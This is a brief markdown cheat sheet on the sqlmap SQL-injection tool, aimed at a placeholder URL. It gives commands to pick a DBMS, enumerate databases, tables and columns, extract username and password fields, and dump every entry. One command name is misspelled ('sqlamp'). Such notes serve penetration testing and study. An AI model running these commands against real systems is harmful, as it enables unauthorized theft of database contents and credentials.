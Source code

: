 <br />

### Specify DBMS (Database Management System)

We can specify DBMS such as **`mysql`, `postgres`, `sqlite`** to avoid unnecessary attempts.

```sh
sqlmap -u "https://example.com/?q=test" --dbms mysql
sqlmap -u "https://example.com/?q=test" --dbms postgres
sqlmap -u "https://example.com/?q=test" --dbms sqlite
```

<br />

### Enumerations

```sh
# List databases
# --dbs: List databases
sqlmap -u "https://example.com/?q=test" --dbs

# List tables
# -D: Specific name of the database
# --table: List tables
sqlmap -u "https://example.com/?q=test" -D exampledb --tables

# List columns
# -T: Specific name of the table
# --columns: List columns
sqlmap -u "https://example.com/?q=test" -D exampledb -T users --columns

# Get each column value
# -C: Specific name of the column. We can specify single column or multiple columns
sqlmap -u "https://example.com/?q=test" -D exampledb -T users -C username
sqlmap -u "https://example.com/?q=test" -D exampledb -T users -C username,password

# Get current user and database
sqlmap -u "https://example.com/?q=test" --current-user
sqlamp -u "https://example.com/?q=test" --current-db
```

<br />

### Dump Entories

We can dump entories by adding **`--dump`** flag.

```sh
sqlmap -u "https://example.com/?q=test" --dump
# Specify dbms, database, table
sqlmap -u "https://example.com/?q=test" --dump --dbms mysql -D exampledb -T users

# Dump all entories
sqlmap -u "https://example.com/?q=test" --dump-all
```
